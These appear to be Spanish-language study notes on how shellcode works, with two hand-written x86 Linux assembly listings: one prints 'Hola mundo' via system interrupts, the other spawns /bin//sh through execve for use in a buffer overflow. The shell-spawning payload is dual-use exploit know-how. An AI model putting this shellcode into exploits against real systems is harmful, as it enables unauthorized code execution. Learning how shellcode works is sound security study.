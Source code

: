 Los **shellcodes** son programas pequeños y altamente optimizados que se utilizan para explotar vulnerabilidades de seguridad y ejecutar código malicioso en una máquina objetivo. Los shellcodes suelen ser escritos en lenguaje **ensamblador** para garantizar una ejecución rápida y eficiente.

Exploraremos cómo funcionan los shellcodes por detrás mediante la creación de algunos shellcodes manualmente. Por ejemplo, intentaremos crear un shellcode que muestre por consola el mensaje “**Hola mundo**” utilizando interrupciones del sistema. Asimismo, intentaremos aplicar una llamada a nivel de sistema para lograr ejecutar un comando deseado.

Una vez que se ha generado el compilado resultante, se puede utilizar el comando **objdump** para convertir el archivo binario generado en un shellcode que pueda ser utilizado en un Buffer Overflow.

```shell
 section .text
   2   │   global _start
   3   │ 
   4   │ _start:
   5   │   
   6   │   mov eax, 4
   7   │ 
   8   │   mov ebx, 1
   9   │   push 0x0a6f64
  10   │   push 0x6e756d20
  11   │   push 0x616c6f48
  12   │   mov ecx, esp
  13   │   mov edx, 11
  14   │   int 80h
  15   │ 
  16   │   mov eax, 1
  17   │   xor ebx, ebx
  18   │ 
  19   │   int 80h
```


![[Screenshot (36).png]]


![[Screenshot (38).png]]![[Screenshot (39).png]]![[Screenshot (41).png]]

 Buffer Overflow. 
```bash
  1   │ section .text
   2   │   global _start
   3   │ 
   4   │ _start:
   5   │   
   6   │   mov eax, 11
   7   │   push 0x0 ; Terminacion de la cadena
   8   │   push 0x68732f2f ; "//sh"
   9   │   push 0x6e69622f ; "/bin"
  10   │ 
  11   │   mov ebx, esp
  12   │   xor ecx, ecx
  13   │   xor edx, edx
  14   │   int 80h ; Interrupcion
  15   │ 
───────┴────────────────────────────
```
